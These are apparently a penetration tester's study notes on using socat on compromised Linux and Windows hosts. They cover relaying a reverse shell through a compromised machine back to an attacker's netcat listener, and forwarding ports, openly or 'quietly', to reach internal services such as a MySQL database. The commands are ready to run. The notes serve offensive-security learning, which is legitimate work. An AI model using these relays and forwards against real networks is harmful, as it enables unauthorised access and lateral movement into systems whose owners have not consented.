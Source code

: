 # Overview
>[!INFO]
  Socat is not just great for fully stable Linux shells, it's also superb for port forwarding.
  The one big **disadvantage** of socat (aside from the frequent problems people have learning the syntax), is that it is **very rarely installed by default** on a target.
  Whilst the following techniques could not be used to **set up a full proxy into a target network**, it is quite possible to use them to successfully **forward ports** from both Linux and Windows **compromised targets**. In particular, socat makes **a very good relay**:
>* For example, if you are attempting to get a **shell** on a **target** that does not have a **direct connection back** to your attacking computer, you could use socat to set up **a relay** on the **currently compromised machine**. This **listens** for the reverse shell from the target and then **forwards it immediately** back to the **attacking box**:

![[Pasted image 20240906173034.png]]

**Socat static binaries :**
https://github.com/andrew-d/static-binaries

Think of socat as a way to **join two things together** -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. 
Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.

***

# Reverse Shell Relay

_Socat_ to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above).

```bash
# 1. First start a nc listener on the attacking box
sudo nc -lvnp 443

# 2. Next, on the compromised server, to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

# Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

# tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
# tcp:ATTACKING_IP:443 connects back to our local IP on port 443. 
```

* In this way, we can set up **a relay to send reverse shells through a compromised system**, back to our own **attacking machine**. This technique can also be chained quite easily; however, in many cases it may be **easier** to just upload **a static copy of netcat** to receive your reverse shell **directly on the compromised server**.

# Port Forwarding -- Easy

With _socat_ simply to open up a **listening port** on the **compromised server**, and **redirect whatever comes** into it to the **target server**.

* For example, if the **compromised server** is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create **a port forward**:

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
# 33060 : the port we opened on the compromised server
# 3306 : the port opened on the intended target server

# fork : used to put every connection into a new process
# reuseaddr : the port stays open after a connection is made to it
# Combined, they allow us to use the same port forward for more than one connection. 
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

# Port Forwarding -- Quiet

This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```bash
# 1. On the attacking machine :
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

```bash
# 2. On the compromised relay server, execute:
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```bash
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

# This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
```
